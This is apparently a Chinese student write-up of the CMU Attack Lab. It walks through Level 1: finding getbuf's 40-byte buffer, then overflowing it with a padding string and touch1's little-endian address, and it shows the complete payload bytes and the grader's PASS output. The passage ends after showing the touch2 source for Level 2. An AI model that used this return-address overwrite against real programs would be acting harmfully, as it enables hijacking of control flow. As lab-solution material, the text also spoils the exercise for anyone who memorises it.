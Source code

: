 我们要做的是将getbuf的返回地址修改为touch1（）的起始地址。首先我们要使用gobjdump将ctarget文件进行反汇编，查找touch1（）函数，函数起始的地址为

```
00000000004017c0 <touch1>:
```

以及我们找到getbuf的汇编代码如下：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

可以看到，getbuf函数在栈中开辟了0x28 = 40个字节的空间，因此我们尝试编写一个长度为40+8字节的字符串，前面40字节进行填充，最后的8字节修改为touch1的地址。

将前面的字节全部填充为A的ascii码：0x41。然后在后8字节我们使用**小端序**来将touch1的地址填充，使用hex2raw来转换。将得到的hexinput_1作为参数输入给./ctarget。结果成功调用输出结果如下：

```
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 C0 17 40 00 00 00 00 00 
```

### Level 2

Level 2需要调用的函数是touch2，该函数的代码如下：

```C
1 void touch2(unsigned val)
2 {
3 	vlevel = 2; /* Part of validation protocol */
4 	if (val == cookie) {
5 		printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 		validate(2);
7 		} else {
8 			printf("Misfire: You called touch2(0x%.8x)\n", val);
9 			fail(2);
10 		}
11 		exit(0);
12 }
```
